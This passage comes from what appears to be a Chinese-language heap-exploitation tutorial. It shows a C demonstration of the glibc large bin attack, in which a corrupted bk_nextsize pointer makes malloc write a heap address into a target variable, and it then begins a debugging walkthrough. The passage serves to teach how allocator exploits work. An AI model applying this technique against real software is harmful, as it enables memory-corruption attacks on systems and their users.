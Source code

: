 ```
  printf("Free the larger of the two --&gt; [p1] (%p)\n",p1-2);
  size_t *g3 = malloc(0x438);
  printf("Allocate a chunk larger than [p1] to insert [p1] into large bin\n");

  printf("\n");

  free(p2);
  printf("Free the smaller of the two --&gt; [p2] (%p)\n",p2-2);
  printf("At this point, we have one chunk in large bin [p1] (%p),\n",p1-2);
  printf("               and one chunk in unsorted bin [p2] (%p)\n",p2-2);

  printf("\n");

  p1[3] = (size_t)((&amp;target)-4);
  printf("Now modify the p1-&gt;bk_nextsize to [target-0x20] (%p)\n",(&amp;target)-4);

  printf("\n");

  size_t *g4 = malloc(0x438);
  printf("Finally, allocate another chunk larger than [p2] (%p) to place [p2] (%p) into large bin\n", p2-2, p2-2);
  printf("Since glibc does not check chunk-&gt;bk_nextsize if the new inserted chunk is smaller than smallest,\n");
  printf("  the modified p1-&gt;bk_nextsize does not trigger any error\n");
  printf("Upon inserting [p2] (%p) into largebin, [p1](%p)-&gt;bk_nextsize-&gt;fd-&gt;nexsize is overwritten to address of [p2] (%p)\n", p2-2, p1-2, p2-2);

  printf("\n");

  printf("In out case here, target is now overwritten to address of [p2] (%p), [target] (%p)\n", p2-2, (void *)target);
  printf("Target (%p) : %p\n",&amp;target,(size_t*)target);

  printf("\n");
  printf("====================================================================\n\n");

  assert((size_t)(p2-2) == target);

  return 0;
`}`
```



## 调试

为了能够看到在`malloc`中到底执行了什么，我们在当前目录下放入`malloc.c`，也就是放入`malloc`的源码。

首先我们断在下面的位置看下此时堆块的布局。

```
size_t *p1 = malloc(0x428);
  size_t *g1 = malloc(0x18);
  size_t *p2 = malloc(0x418);
  size_t *g2 = malloc(0x18);
```
